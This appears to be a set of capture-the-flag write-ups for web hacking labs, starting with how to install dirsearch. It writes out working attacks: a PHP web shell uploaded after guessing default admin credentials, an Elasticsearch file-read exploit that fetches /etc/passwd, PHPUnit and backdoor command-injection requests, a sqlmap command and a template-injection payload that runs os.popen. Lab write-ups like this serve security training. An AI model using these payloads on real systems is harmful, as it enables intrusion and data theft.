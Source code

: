 # Installing Dirsearch
The first thing we need to do is install dirsearch from GitHub. 

The easiest way to do this is with git. So if it's not already installed on your system, do so with the following command in the terminal:

$sudo apt-get update
$sudo apt-get install git
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/fa7bf001-3757-4cc7-986f-9898f5a56c3c)

Now we can use the git clone command to clone the directory where the tool is located:

$git clone https://github.com/maurosoria/dirsearch
$cd dirsearch/
$python3 dirsearch.py      #run dirsearch
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/5ea41a82-ea53-4e6e-90db-d6db23a75574)
git clone https://github.com/maurosoria/dirsearch.git --depth 1

The last way to run dirsearch, which is my preferred method, is to create a symbolic link in the /bin directory. This will allow us to run the tool from anywhere, as opposed to only in the directory cloned from GitHub.
$cd /bin/

create a symbolic link to the tool using the ln -s command:
$sudo ln -s ~/dirsearch/dirsearch.py dirsearch

Here we are naming it dirsearch, so when we run dirsearch now in the terminal, the tool will be able to run from any directory. 
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/3affa48f-5008-429b-9ea1-0910fcfd2caf)



## bolt
Let's try: View Page Source, pay attention to p This website is... /p, add /bolt to URL and guess the user and pass (admin, password).

Once you are in you need to go to file management to see if you can upload some malicious files. Let’s try to create and upload a vulnerable rce.html file

click file and start editing < ?php echo system($_GET['cmd']);? >
Go to options and rename the rce.html file to rce.php

Click on rce.php
Add cmd=id
cmd=ls-l
cat /flag.txt
CTF{b12e3b34c581d4f3c66c00cc7f8dabec8838dab0acf26c2cfbe2f7d291326f75}
## elastic
Hints:
Hint 1:  Elasticsearch < 1.6.1 Arbitrary file read CVE (version)

The main web page exposure sensitive information about the version of Elasticsearch
application. 

The main of this scenario is to identify the vulnerability like in the real scenario.

Try to find an exploit

Searchable archive from The Exploit Database. https://www.exploit-db.com/

Search for remote Oracle exploits for Windows:
Installation:

$sudo apt install exploited

$sudo apt install libxml2-utils

Dependencies: libxml2-utils

$searchsploit elasticsearch

The vulnerability present in the current scenario offers more details about 
CVE-2015-5531- Arbitrary file Vulnerability. 

The exploit can be found here:

https://github.com/nixawk/labs/blob/master/CVE-2015-5531/exploit.py

$ python3 exploit.py URL /etc/passwd 
CTF{265b92ed0091f139fdcd438196426f205fed9b14bce765bafd8344b1d96183e5}
## php unit
A website is provided as a reference to my unit is feeling a little off. So first we can try to understand php unit. For example, we can use the automatic tool Dirsearch, which brute-force searches for vulnerabilities in directories.

$ dirsearch -u URL

From these addresses we can select the ones that are interesting to us like /composer.json, Here we can find versions of php-unit and /eval-stding.php
Vulnerable path. Let’s check: /composer.json where we can understand that our php uni is vulnerable (CVE-2017-9841).

Now exploit the vulnerable path using Burpsuite: < ?php system('cat /flag.txt')? >
CTF{8c7795c5332da1491741a61fe780006a619273444bfe54aff555e28f83e3b123}

## nodiff-backdoor
After performing some recon using *dirsearch* on the targeted web application, we can find a *backup.zip* archive.

$ dirsearch -u URL

Download the backup file from the following URL: http://34.107.45.207:30148//backup.zip 
(take note that the IP address can change based on the functionality of the CyberEDU platform.) 

In this way, we obtain the source code of the application.

$ wget http://34.107.45.207:30148//backup.zip 

Copy backup.zip to the new folder and unzip it. 

Now is the time to find some backdoor. Because applications use PHP code we try to search for vulnerable function in PHP:
https://gist.github.com/mccabe615/b0907514d34b2de088c4996933ea1720

We can try to search for all the vulnerable functions. After few tries observe we got the vulnerable function (shell_exec()) in the next path: “wp-content/themes/twentytwentytwo/functions.php”

$ grep –r “shell_exec(“

The next step is to execute the backdoor to access the server based on what we have. 
If we have the parameter welldone=knockknock, then execute parameter shazam=<injection>
![image](https://github.com/Mariam-kabu/cybersec-labs/assets/82336496/5ed643c1-2038-4a23-ba9f-b3c823729699)
function sentimental_function) {
If ($_
_GET [ 'welldone'] == 'knockknock') {
echo shell_exec($_GET[ ' shazam' ]) ;
Now let’s get the flag in the source of the page:
http://34.107.45.207:30148/?welldone=knockknock&shazam=id

http://34.107.45.207:30148/?welldone=knockknock&shazam=cat flag.php
CTF{87702788126237df9c4a915fea9441345dc6b3a0272b214b2c31e50a8f89c4b1}

## SQL
After a few attempts of web application reconnaissance using dirsearch -u , we obtain a register endpoint.
choose register.php because it is successful link.
register

When we put “%” into the field, the list of all the products is showed. At this moment, we can conclude that the page with search functionalities implemented is vulnerable to SQLi injection. To proceed further with the attack, copy the cookie from the POST request obtained with Burp and use SQLmap on it. we use it for the command to have valid session
product_name=%25&submit=Search

sqlmap --cookie="PHPSESSID=..." -u URL --forms --colums --random-agent
CTF{1nformat1on_sch3ma_c4n_cont41n_us3ful_d4t4}


## Fask
try dirsearch and chek urls

for /auth We are not allowed to use GET requests because we got some error, 
so let’s try to use POST  requests.

## s&s
Usually, when something similar is noticed, it is recommended to look in the header section of the web application. 
From header we can obtain, that it is python server and set-cookie is shown right there
curl -i URL

Once we try to decode the cookie using base64, we can see, that some words appeared as the result
echo -n "cookie" | base64 -d 

After decoding the cookie, we obtain the message "Try harder" and some junk data. Based on what information we have gathered until now ( Python server, cookies in base64 format + some junk ) we can conclude that this is a pickle server. At this moment we can send some pickle payloads to the server which will lead to arbitrary file read vulnerability. 

*run python payload change only URl*
python PayLoad.py

## online
Search for traffic using http filter. 10476... Follow the HTTP stream with the shortcut Ctrl+Alt+Shift+H

Eventually we can spot suspicious traffic to www.txtwizard.net (plain text). filter for 10.0.0...

Now we can copy the messages and filter them with regexes in a text edition with an engine
implemented to get only the plainText argument values.
An example regex is:
plainText=(.*?)&key

https://base64decode.org/

After we convert from base64, we can observe that the new text seems to be obfuscated with: rot13 RPFP{qq545sos12sq608qnn8p201s50s95p8520orp9s744n3573o1qp0op53pr019726}

## sea
Server Side Template Injection
{{7*7}}

curl -I URL

burp suit: 
name=<%
import os
x=os.popen('cat flag').read()
%>${x}


